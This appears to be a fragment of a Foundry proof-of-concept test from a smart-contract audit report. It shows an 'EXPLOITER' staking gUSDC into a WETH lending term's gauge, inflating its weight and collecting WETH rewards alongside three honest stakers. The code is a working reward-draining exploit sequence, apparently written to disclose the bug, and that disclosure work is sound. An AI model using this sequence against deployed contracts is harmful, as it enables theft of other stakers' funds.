 ```solidity
        gWETH.mint(STAKER3, 30e18);

        vm.startPrank(STAKER1);
        gWETH.approve(address(sgmWETH), 10e18);
        sgmWETH.stake(termWETH, 10e18);
        vm.stopPrank();

        vm.startPrank(STAKER2);
        gWETH.approve(address(sgmWETH), 50e18);
        sgmWETH.stake(termWETH, 50e18);
        vm.stopPrank();

        vm.startPrank(STAKER3);
        gWETH.approve(address(sgmWETH), 30e18);
        sgmWETH.stake(termWETH, 30e18);
        vm.stopPrank();

        console.log("------------------------AFTER ATTACK-------------------------");
        console.log("Gauge(gWETH) Weight Before Attack:     ", guild.getGaugeWeight(termWETH));

        gUSDC.mint(EXPLOITER, 100e18);
        console.log("EXPLOITER gUSDC balance before stake:  ", gUSDC.balanceOf(EXPLOITER));
        vm.startPrank(EXPLOITER);
        gUSDC.approve(address(sgmUSDC), 100e18);
        sgmUSDC.stake(termWETH, 100e18);
        console.log("EXPLOITER gUSDC balance after stake:                       ", gUSDC.balanceOf(EXPLOITER));
        vm.stopPrank();

        console.log("Gauge(gWETH) Weight After Attack:      ", guild.getGaugeWeight(termWETH));

    	vm.warp(block.timestamp + 150 days);
        vm.prank(governor);
        profitManagerWETH.setProfitSharingConfig(
            0.05e18, // surplusBufferSplit
            0.9e18, // creditSplit
            0.05e18, // guildSplit
            0, // otherSplit
            address(0) // otherRecipient
        );

        gWETH.mint(address(profitManagerWETH), 1e18);
        profitManagerWETH.notifyPnL(termWETH, 1e18);

        vm.startPrank(EXPLOITER);
        sgmUSDC.unstake(termWETH, 100e18);
        vm.stopPrank();

        console.log("EXPLOITER gUSDC balance after unstake: ", gUSDC.balanceOf(EXPLOITER));
        sgmWETH.getRewards(EXPLOITER, termWETH);
        sgmUSDC.getRewards(EXPLOITER, termWETH);
        console.log("EXPLOITER reward:                                          ", gWETH.balanceOf(address(EXPLOITER)));

        sgmWETH.getRewards(STAKER1, termWETH);
        sgmWETH.getRewards(STAKER2, termWETH);
        sgmWETH.getRewards(STAKER3, termWETH);
        console.log("Staker1 reward:                             ", gWETH.balanceOf(address(STAKER1)));
        console.log("Staker2 reward:                            ", gWETH.balanceOf(address(STAKER2)));
        console.log("Staker3 reward:                             ", gWETH.balanceOf(address(STAKER3)));
```